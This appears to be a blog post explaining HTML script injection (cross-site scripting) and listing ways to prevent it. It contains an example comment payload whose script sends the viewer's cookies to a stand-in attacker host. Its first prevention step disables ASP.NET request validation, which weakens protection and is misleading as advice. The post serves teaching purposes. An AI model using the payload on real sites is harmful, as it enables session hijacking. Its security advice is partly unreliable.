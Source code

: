 ```yaml
---
layout: post
title:  "HTML Script Injecting"
author: jhwimalasiri
categories: [ Tech ]
tags: [ code injection ]
image: assets/images/html-script-injection-cover.png
description: "HTML Script Injecting"
featured: false
hidden: false
---
```


HTML Script Injection also known as Cross-Site Scripting, is a serious security threat which allows attackers to inject malicious html code in to user interfaces of a vulnerable website.

This type of injection may result in not only changing the display of the website but also it can lead to an XSS attack. XSS refers to an injection flaw whereby user input to a web script or something along such lines is placed into the output HTML, without being checked for HTML code or scripting.

Common html tags that can be prone to html script injection,

    <script>  <meta>  <html>  <body> <embed> <frame> <frameset> <img> <style> <link> <object>

## How is HTML Script Injection performed?

First the attacker must find vulnerable parts of the website. Mostly data input fields and website’s links are vulnerable. Then the attacker can inject malicious html code into the source code by innerHTML.

Suppose the website has a comment form,

![Comment Form](../assets/images/comment-form.png)

In the form the user types the name and a comments. After submitting, all the comments are displayed on the page. So if an attacker enters malicious data into the comment it will also be displayed on the page.

For an example a malicious person may enter a comment such as,

    Nice site, I think I’ll take it.<script>window.location=”http://some_attacker/cookie.cgi?steal=" +escape(document.cookie)</script>


If another user views the comment page then the injected code will be executed which will allow the attacker to steal that user’s identity.

## How to prevent script injection attacks?

1. Disable request validation at the application level by turning off ValidateRequest in the pages element of your application's configuration file


        <configuration>
        <appSettings/>
        <connectionStrings/>
        <system.web>
        <pages validateRequest=”false”/>
        </system.web>
        </configuration>

2. Using Server.HTMLEncode() to encode the user s input

        String username= Server.HtmlEncode(TextBox1.Text);
        Response.Write(“Name: “+username);

3. Rejecting certain special characters like, “<”, “>”, “*”, “%”, “!”, “@”, etc.

4. Proper data validation

In this article we talked about what HTML Script Injection is and how to prevent it, during my previous articles we discussed on few types of code injection and this will be the last of them. Hope all that will be helpful to you in making your website secure.

I will be joining with you all with another new interesting topic soon. :)

